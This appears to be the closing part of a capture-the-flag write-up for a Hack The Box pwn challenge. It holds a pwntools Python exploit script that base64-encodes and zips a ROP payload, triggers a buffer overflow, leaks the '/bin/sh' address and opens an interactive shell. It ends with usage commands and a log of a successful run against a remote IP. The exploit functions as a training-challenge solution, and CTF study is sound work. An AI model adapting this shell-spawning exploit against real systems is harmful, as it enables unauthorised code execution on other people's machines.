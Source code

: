 ```python

def zip_payload(payload):
    with open('spell.txt', 'wb') as f:
        f.write(payload)

    os.system('zip spell.zip spell.txt > /dev/null')
    os.remove('spell.txt')

    with open('spell.zip', 'rb') as f:
        b64_payload = b64e(f.read()).encode()

    return b64_payload

def send_payload(p, b64_payload):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'Enter file (it will be named spell.zip): ', b64_payload)

def trigger_exploit(p):
    p.sendlineafter(b'>> ', b'2')  # Unzip the file
    p.sendlineafter(b'>> ', b'3')  # Trigger the overflow

def main():
    parser = argparse.ArgumentParser(description="Exploit for Getting Started (HTB)")
    parser.add_argument('--host', help='Remote host')
    parser.add_argument('--port', help='Remote port')
    args = parser.parse_args()
    
    p = get_process(args)
    bin_sh_addr = leak_bin_sh(p)
    payload = build_rop_payload(bin_sh_addr)
    b64_payload = zip_payload(payload)
    send_payload(p, b64_payload)
    trigger_exploit(p)
    p.interactive()

if __name__ == '__main__':
    main()
```

- Uses argparse: `--host` and `--port` for remote, or defaults to local
- Base64 encodes the payload and zips it automatically
- Payload includes the mandatory magic header
- Fully dynamic gadget and address discovery

```bash
python3 sacred_scrolls_exploit_final.py
python3 sacred_scrolls_exploit_final.py --host 1.2.3.4 --port 1337
```

## Exploitation Result ✅

```bash
└──╼ $python3 exploit.py --host 94.237.53.203 --port 36648
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
[+] Opening connection to 94.237.53.203 on port 36648: Done
[+] Leaked "/bin/sh" address: 0x7f3f526fb698
[*] Loaded 14 cached gadgets for './sacred_scrolls'
[*] Switching to interactive mode
```
